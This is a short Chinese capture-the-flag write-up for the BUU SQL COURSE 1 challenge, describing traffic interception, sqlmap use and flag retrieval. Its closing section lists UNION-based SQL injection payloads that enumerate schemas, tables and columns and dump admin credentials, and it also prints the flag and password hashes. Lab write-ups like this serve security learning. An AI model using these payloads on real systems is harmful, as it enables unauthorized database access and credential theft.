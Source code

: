 ## BUU SQL COURSE 1

首先我们进入页面发现有==热点==和==登录== 两个入口，我简单的看了看热点中的三个页面，发现没什么，由于是sql题我想着会在登录口提供注入，测试了半天发现没什么响应，于是我回到热点页面寻找一些提示

正常手段没有什么发现，于是我选择抓包尝试

![image-20240815102913873](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240815102913873.png)

发现这里可能是一个注入口，于是我开始尝试

测试了几个数据发现是有效注入，这里我才用`sqlmap`

![image-20240815105033629](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240815105033629.png)

发现了登录密码，我这里登录一下试试

759acef6268110172281c9824641399e

得到flag

```
flag{62e98eae-c31c-422a-b0ba-469e84ef2717}
```



### 网上Wp学习

```
暴库：（information_schema,ctftraining,mysql,performance_schema,test,news）
?id=-1 UNION SELECT 1,group_concat(schema_name) from information_schema.schemata

暴表：（admin,contents）
?id=-1 UNION SELECT 1,group_concat(table_name) from information_schema.tables where table_schema="news"

暴字段：（id,username,password）
?id=-1 UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name="admin"

暴密码：(983a3f6bc1f3709f9f8997f887ef9803)
?id=-1 UNION SELECT 1,concat(username,0x3a,password) from admin
```

